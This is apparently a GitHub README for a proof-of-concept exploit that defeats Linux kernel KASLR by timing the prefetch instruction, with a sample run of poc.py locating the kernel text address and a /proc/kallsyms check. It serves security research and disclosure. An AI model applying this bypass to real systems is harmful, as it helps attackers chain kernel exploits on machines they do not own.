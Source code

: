 kaslr-bypass-via-prefetch
=========================

This is a proof-of-concept exploit for a KASLR bypass for the Linux kernel via timing the prefetch instruction.
Inspired by [a blogpost by Anders Fogh](http://dreamsofastone.blogspot.ru/2016/02/breaking-kasrl-with-micro-architecture.html).

The exploit works by measuring the time required to prefetch a particular address in the kernel space.
The idea is that a prefetch instruction is faster on virtual addresses which actually map to a page.
The used measuring approach is kind of best effort, but seems to be working.
See the source code for details.

The exploit was tested on a machine with Intel Core i7-4510 running Ubuntu 15.10 with 4.2.0-16-generic kernel and KASLR enabled.
Other setups might require other threshold values or a different number of measuring steps for the exploit to work.
I'd guess that it might not work at all for some CPUs.

Since [the KASLR for the Linux kernel is not really that random](https://lwn.net/Articles/569635/), the number of slots for the kernel text is quite limited, which allows to figure out the text location in a reasonable time.

Usage:
``` bash
$ python poc.py
0xffffffff80000000 0.8125
0xffffffff80000000 rejected
0xffffffff81000000 0.875
0xffffffff81000000 rejected
0xffffffff82000000 0.125
0xffffffff82000000 0.125
0xffffffff82000000 0.625
0xffffffff82000000 rejected
0xffffffff83000000 0.375
0xffffffff83000000 rejected
0xffffffff84000000 0.0625
0xffffffff84000000 0.0
0xffffffff84000000 0.0625
0xffffffff84000000 0.125
0xffffffff84000000 0.0625
0xffffffff84000000 rejected
0xffffffff85000000 0.25
0xffffffff85000000 0.0625
0xffffffff85000000 0.0
0xffffffff85000000 0.25
0xffffffff85000000 0.0625
0xffffffff85000000 rejected
0xffffffff86000000 0.875
0xffffffff86000000 rejected
0xffffffff87000000 0.875
0xffffffff87000000 rejected
0xffffffff88000000 0.375
0xffffffff88000000 rejected
0xffffffff89000000 0.125
0xffffffff89000000 0.9375
0xffffffff89000000 rejected
0xffffffff8a000000 0.3125
0xffffffff8a000000 rejected
0xffffffff8b000000 0.25
0xffffffff8b000000 0.1875
0xffffffff8b000000 0.875
0xffffffff8b000000 rejected
0xffffffff8c000000 0.5625
0xffffffff8c000000 rejected
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 0.0
0xffffffff8d000000 accepted
the kernel is probably at 0xffffffff8d000000
```

You can confirm the kernel text address with:
``` bash
$ sudo cat /proc/kallsyms | grep 'T _text'
ffffffff8d000000 T _text
```
